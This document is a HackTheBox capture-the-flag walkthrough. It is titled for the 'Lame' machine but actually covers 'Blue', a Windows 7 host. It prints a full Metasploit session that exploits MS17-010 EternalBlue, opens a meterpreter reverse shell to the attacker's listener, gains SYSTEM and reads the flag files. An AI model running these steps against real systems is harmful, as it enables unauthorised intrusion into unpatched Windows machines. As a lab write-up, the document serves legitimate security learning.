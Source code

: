 # HackTheBox Lame Walkthrough

This is a Walkthrough how I get the user and root flag on the machine. All my scan results are stored in the [attachments](./attachments) folder.

achine details:

- Machine Name: Blue
- IP address: 10.10.10.40
- OS: Windows
- Difficulty: Easy

## Scanning

In this table I summarize the open ports and protocols and the XML version of the full results.

| Scan Type         | Open Ports/Protocols                                    | XML Output File                                |
|-------------------|---------------------------------------------------------|------------------------------------------------|
| Nmap IP Scan      | 1 (ICMP), 6 (TCP)                                       | [ip_legacy.xml](./attachments/ip_legacy.xml)   |
| Nmap TCP SYN Scan | 135, 139, 445, 49152, 49153, 49154, 49155, 49156, 49157 | [tcp_legacy.xml](./attachments/tcp_legacy.xml) |
| Nmap UDP Scan     | -                                                       | [udp_legacy.xml](./attachments/udp_legacy.xml) |

## Enumeration

### OS Enumeration

The Nmap OS detection did not find clear match for OS. But the SMB enumeration found Windows 7 Professional 7601 Service Pack 1.

### SMB Enumeration

I used the smb-os-discovery NSE script to enumerate the version of OS, results in [tcp_legacy.xml](./attachments/tcp_legacy.xml).

### Searching Vulnerabilities

I google for [windows 7 professional 7601 service pack 1 smb exploit](https://www.google.com/search?q=windows+7+professional+7601+service+pack+1+smb+exploit&oq=Windows+7+Professional+7601+Service+Pack+1+smb&aqs=chrome.1.69i57j0l2.12029j0j7&sourceid=chrome&ie=UTF-8) and I found the module for [EternalBlue](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue).

## Exploit

I use the found module with staged meterpreter reverse TCP shell. The meterpreter session already has SYSTEM privilege so the only think left is to find the user and root flag on the machine.

```bash
root@Kali:/# msfconsole

               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:
                                :::::::+:
                      Metasploit

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: View all productivity tips with the tips command

msf5 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.5      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.23
LHOST => 10.10.14.23
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.23:4444
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.40:49158) at 2020-08-23 17:22:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\Windows\system32
meterpreter > cat C:\\Users\\Administrator\\Desktop\\root.txt
ff548eb71e920ff6c08843ce9df4e717
meterpreter > cat C:\\Users\\haris\\Desktop\\user.txt
4c546aea7dbee75cbd71de245c8deea9
meterpreter >
```


